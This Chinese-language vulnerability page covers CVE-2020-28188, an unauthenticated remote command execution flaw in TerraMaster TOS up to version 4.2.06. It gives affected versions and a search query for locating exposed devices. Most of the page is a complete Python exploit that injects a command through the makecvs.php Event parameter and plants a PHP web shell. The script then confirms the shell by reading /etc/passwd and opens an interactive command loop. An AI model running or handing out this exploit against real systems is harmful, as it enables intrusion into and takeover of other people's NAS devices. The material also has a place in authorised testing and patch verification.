

# TerraMaster TOS makecvs.php 远程命令执行漏洞 CVE-2020-28188

## 漏洞描述

TerraMaster TOS 4.2.06 以下中 makecvs.php 存在任意文件写入，攻击者可以上传恶意文件控制服务器

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.06</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登录页面如下




存在漏洞的为 `/include/makecvs.php` 中的Event参数


使用EXP文件上传并执行命令


## 漏洞POC

```python
# Exploit Title: TerraMaster TOS 4.2.06 - RCE (Unauthenticated)
# Date: 12/12/2020
# Exploit Author: IHTeam
# Full Write-up: https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
# Vendor Homepage: https://www.terra-master.com/
# Version: <= 4.2.06
# Tested on: 4.1.30, 4.2.06

#!/usr/bin/env python3
import argparse
import requests
import time
import sys
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser(description="TerraMaster TOS <= 4.2.06 Unauth RCE")
parser.add_argument('--url', action='store', dest='url', required=True, help="Full URL and port e.g.: http://192.168.1.111:8081/")
args = parser.parse_args()

url = args.url
headers = {'User-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36'}
epoch_time = int(time.time())
shell_filename = "debug"+str(epoch_time)+".php"

def check_endpoint(url, headers):
	response = requests.get(url+'/version', headers=headers, verify=False)
	if response.status_code == 200:
		print("[+] TerraMaster TOS version: ", str(response.content))
	else:
		print("\n[-] TerraMaster TOS response code: ", response.status_code)
		sys.exit()
		
def upload_shell(url, headers, shell_filename):
	payload = "http|echo \"<?php echo(passthru(\\$_GET['cmd']));?>\" >> /usr/www/"+shell_filename+" && chmod +x /usr/www/"+shell_filename+"||"
	payload = urllib.parse.quote(payload, safe='')
	print("[/] Uploading shell...")
	response = requests.get(url+'/include/makecvs.php?Event='+payload, headers=headers, verify=False)
	time.sleep(1)
	response = requests.get(url+'/'+shell_filename+'?cmd=cat /etc/passwd', headers=headers, verify=False)
	if ('root:' in str(response.content, 'utf-8')):
		print("[+] Upload succeeded")
	else:
		print("\n[-] Error uploading shell: ", response.content)
		sys.exit()

def interactive_shell(url, headers, shell_filename, cmd):
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(cmd, safe=''), headers=headers, verify=False)
	print(str(response.text)+"\n")


def delete_shell(url, headers, shell_filename):
	delcmd = "rm /usr/www/"+shell_filename
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(delcmd, safe=''), headers=headers, verify=False)
	print("\n[+] Shell deleted")

upload_shell(url, headers, shell_filename)
try:
	while True:
		cmd = input("# ")
		interactive_shell(url, headers, shell_filename, cmd)
except:
	delete_shell(url, headers, shell_filename)
```